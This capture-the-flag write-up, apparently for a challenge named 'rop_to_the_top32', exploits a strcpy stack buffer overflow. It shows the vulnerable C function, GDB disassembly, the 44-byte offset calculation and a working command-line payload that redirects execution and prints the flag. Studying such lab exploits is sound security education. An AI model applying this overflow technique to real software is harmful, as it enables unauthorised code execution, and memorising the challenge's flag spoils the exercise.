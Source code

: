 The function which we can use to access it is called `fun_copy`:
```c
void fun_copy(char *input) {
	char destination[32];
	strcpy(destination, input);
	puts("Done!");
}
```

First, we have a look at the executable with GDB:
```bash
gdb -q rop_to_the_top32
```

Finding out where `the_top` is:
```bash
(gdb) print the_top
$1 = {<text variable, no debug info>} 0x80484db <the_top>```
`the_top` is at 0x080484db

Disassembling `fun_copy`:
```bash
(gdb) disas fun_copy
Dump of assembler code for function fun_copy:
   0x080484f4 <+0>:     push   %ebp
   0x080484f5 <+1>:     mov    %esp,%ebp
   0x080484f7 <+3>:     sub    $0x28,%esp
   0x080484fa <+6>:     sub    $0x8,%esp
   0x080484fd <+9>:     pushl  0x8(%ebp)
   0x08048500 <+12>:    lea    -0x28(%ebp),%eax
   0x08048503 <+15>:    push   %eax
   0x08048504 <+16>:    call   0x8048380 <strcpy@plt>
   0x08048509 <+21>:    add    $0x10,%esp
   0x0804850c <+24>:    sub    $0xc,%esp
   0x0804850f <+27>:    push   $0x804862e
   0x08048514 <+32>:    call   0x8048390 <puts@plt>
   0x08048519 <+37>:    add    $0x10,%esp
   0x0804851c <+40>:    nop
   0x0804851d <+41>:    leave
   0x0804851e <+42>:    ret
End of assembler dump.
```
The buffer is 0x28 (40) bytes long.

To overwrite the return address on the stack, we have to add another 4 bytes.
This means we have to write:
* 44 bytes to get to the return address
* Return Address (4 bytes)

Calling the program with the correct argument:
```bash
$ ./rop_to_the_top32 $(for i in {1..44}; do echo -n 'a'; done; echo -ne '\xdb\x84\x04\x08')
Now copying input...
Done!
actf{strut_your_stuff}
Segmentation fault (core dumped)
```
